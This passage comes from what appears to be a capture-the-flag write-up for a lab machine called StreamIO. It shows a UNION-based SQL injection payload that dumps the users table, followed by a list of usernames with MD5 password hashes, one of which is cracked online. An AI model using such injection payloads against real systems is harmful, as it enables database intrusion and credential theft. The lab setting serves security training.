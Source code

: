 There are few interesting fields there like obvious `username` and `password`

### Dumping Usernames and Password (hashes)

```
a' UNION SELECT 1,string_agg(CONCAT(username,' - ',password),'  :  '),3,4,5,6 FROM streamio..users --
```

![picture 17](/assets/images/bf9f24b14fe581902155dca4feddd04c272c14ab5275e4fd4d60b1e79bb2415f.png)  

Throwing 665a50ac9eaa781e4f7f04199db97a11 md5 hash into [md5decrypt](https://md5decrypt.net/) already provides us with the password which is `paddpadd` however let's do this properly and try to see if we can decode other username:password combinations. Save that file and make a list of username:password

```
luka@MBP htb % cat streamio_users.txt | sed 's/ //g' | sed 's/\/r\/n/\n/g' 
James:c660060492d9edcaa8332d89c99c9239
Theodore:925e5408ecb67aea449373d668b7359e
Samantha:083ffae904143c4796e464dac33c1f7d
Lauren:08344b85b329d7efd611b7a7743e8a09
William:d62be0dc82071bccc1322d64ec5b6c51
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5
Robert:f03b910e2bd0313a23fdd7575f34a694
Thane:3577c47eb1e12c8ba021611e1280753c
Carmon:35394484d89fcfdb3c5e447fe749d213
Barry:54c88b2dbd7b1a84012fabc1a4c73415
Oliver:fd78db29173a5cf701bd69027cb9bf6b
Michelle:b83439b16f844bd6ffe35c02fe21b3c0
Gloria:0cfaaaafb559f081df2befbe66686de0
Victoria:b22abb47a02b52d5dfa27fb0b534f693
Alexendra:1c2b3d8270321140e5153f6637d3ee53
Baxter:22ee218331afd081b0dcd8115284bae3
Clara:ef8f3d30a856cf166fb8215aca93e9ff
Barbra:3961548825e3e21df5646cafe11c6c76
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f
Austin:0049ac57646627b8d7aeaccf8b6a936f
```